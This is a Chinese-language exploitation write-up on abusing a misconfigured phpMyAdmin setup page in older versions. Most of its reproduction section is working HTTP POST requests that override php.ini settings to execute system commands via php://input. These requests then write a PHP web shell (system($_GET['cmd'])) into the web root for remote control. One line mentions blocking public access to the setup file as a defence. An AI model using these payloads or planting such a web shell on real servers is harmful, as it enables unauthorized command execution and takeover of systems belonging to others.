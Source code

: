 Phpmyadmin setup页面配置不当的利用姿势整合
==========================================

一、漏洞简介
------------

其安装在Web服务器上的接口界面,主要用于使用php来管理安装服务器上的后台数据库(MySQL数据库),但如果采用默认安装,敏感路径未做出处理,便会存在安全漏洞,最突出的是其setup脚本中存在着服务器端请求伪造漏洞。远程攻击者可利用该漏洞执行未授权的操作。

二、漏洞影响
------------

phpMyAdmin
4.0.10.19之前的版本，4.4.15.10之前的4.4.x版本，4.6.6之前的4.6.x版本。

三、复现过程
------------

如果用户未对phpmyadmin目录下的setup文件进行安全处理,那普通用户可以在不进行身份认证的情况下,便可以配置服务器信息(防范措施:不允许其他用户从公网访问phpMyAdmin目录或者禁止访问setup文件)![1.png](resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId24.png)我们可以通过构造参数执行配置指令,并利用php伪协议提交post内容执行

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1      
     #问号及其后面的内容用于修改修改php的主配置文件php.ini，从而可以执行下面插入的php代码

    Host: www.0-sec.org 

    Content-Length: 35

    <?php 

    passthru('id');        
     #passthru() 函数用于调用系统命令，并把命令的运行结果原样地直接输出到标准输出设备上。
     #也可以将id命令换成其他Linux命令去获取web系统的数据,目前使用的是普通用户www-date,权限有限

    die();                
     #die() 函数输出一条消息，并退出当前脚本,此处使用为了避免获取多余无用的信息

    ?>

可以使用Burpsuite的Repeater工具该发送post请求,获取目标的信息![3.png](resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId25.png)由刚刚的id命令得知目前的用户为www-data,由查看账户信息得知其主目录为/var/www,那么便可以向其主目录写入木马,以实现远程控制的效果![4.png](resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId26.png)![5.png](resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId27.png)命令如下

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 102

    <?php 

    passthru('echo "<?php \$cmd = \$_GET["cmd"];system(\$cmd);?>" >/var/www/2.php');
    #该木马表示将GET方式获取的指令赋值于cmd命令,并使用system()函数运行cmd变量存储的命令
    #反斜杠作用:避免服务器将上传内容过滤,输入命令无效
    die();

    ?>

通过在浏览器访问该木马,便可获取目标系统的shell![6.png](resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId28.png)

参考链接
--------

> https://louisnie.github.io/2018/10/23/%E6%89%8B%E5%8A%A8%E6%8C%96%E6%8E%98%E4%B9%8B%E9%BB%98%E8%AE%A4%E5%AE%89%E8%A3%85%E6%BC%8F%E6%B4%9E-1/
